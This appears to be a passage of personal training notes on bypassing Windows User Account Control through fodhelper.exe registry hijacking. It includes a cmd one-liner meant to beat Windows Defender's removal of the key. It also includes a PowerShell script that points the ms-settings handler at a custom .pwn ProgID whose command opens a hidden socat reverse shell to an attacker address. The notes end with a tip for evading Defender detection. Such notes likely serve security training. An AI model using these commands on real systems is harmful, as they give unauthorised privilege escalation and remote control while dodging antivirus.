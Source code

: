 But adding a quick query to the offending registry value right after setting it to the command required for our reverse shell, we still get alerted by Windows Defender, and a second later, the offending registry value gets deleted as expected.

Right after setting the registry value, **we need the command to run quickly:**

```C

Same command as the above but at the last command add:

reg add %REG_KEY% /d %CMD% /f & reg query %REG_KEY% & fodhelper.exe
```

However, the problem is it's basically a race between you and the Antivirus see who gets first making this exploit unreliable.

![[Bypassing UAC-15.png]]

It works (not shown) but Windows Defender still detects it, another thing is it gives little room for variation, as we need to write specific registry keys to trigger it, making it easy for Windows Defender to detect.
### Modified fodhelper exploit
---
Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system, this allows to point to the default version of the application to be used by Windows when opening a given file type.

The idea is still the same we are still hijacking how Windows opens `ms-settings:` via the registry. But instead of directly changing the `command` under `ms-settings`, you **redirect `ms-settings` to a fake file type** (your own `.pwn`), and put your payload **there**.

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

Notice the `.pwn` in the registry path — this is a **custom ProgID** we create. Normally, `fodhelper.exe` looks for the `ms-settings` ProgID to determine what command to run when opening `ms-settings:` URLs.

But we set a `CurVer` value under `ms-settings` that **points to our `.pwn` ProgID** instead. This tells Windows, to dont use `ms-settings` handler -- use my `.pwn` instead.

However, it stills gets detected by Windows Defender but the good thing is AV software are implemented strictly against the published exploit, doing the same thing in `cmd.exe` no alert from Defender.
